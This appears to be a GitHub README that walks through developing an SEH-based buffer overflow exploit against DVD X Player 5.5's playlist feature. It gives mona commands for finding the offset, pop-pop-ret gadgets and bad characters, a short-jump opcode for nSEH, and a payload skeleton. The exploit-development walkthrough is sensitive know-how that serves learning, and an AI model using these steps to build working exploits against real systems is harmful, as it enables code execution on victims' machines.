




# SEH_buffer_overflow


- application is DVD-x-player 5.5
- SEH buffer overflow


### 1. Fuzzing


- vulnerability in playlist feature with in 2000 bytes




- since it is a structured exception handling we need to find offset to next  nseh, seh


### 2. Finding Offset

- we will use mona module

```
!mona pattern_create 2000
```

```
!mona pattern_offset 33754132 == value present in next structured exception handler
```





##### offset

**found offset at 608**


### 3. Overwriting 

- now we will try to control nseh and seh



- now we have overwritten both nseh and seh


### 4. Find pop pop ret 

- we need to find pop pop ret instruction sequence if we want to jump where payload is saved 
- this will help us execute payload in stack

```
!mona seh -m -o
```



- we can select any address for pop pop return sequence 
- after that we need to overwrtie nseh with 

```
EB 0B			jmp 12 bytes
```

 

### 5. Finding bad characters


- we need to find characters that application will not accept
- and remove them from our payload

```
!mona bytearray -cpb "\x00"
```

```
!mona compare -f C:\mona\DVDXPlayer\bytearray.bin -a 0012f1c2
```


##### badchars

```
"\x00\x0a\x1a"
```


### final payload


```
garbage = "A" * offset + nseh + seh + nops_led + payloads + nops_led
```

this will be payload skeleton

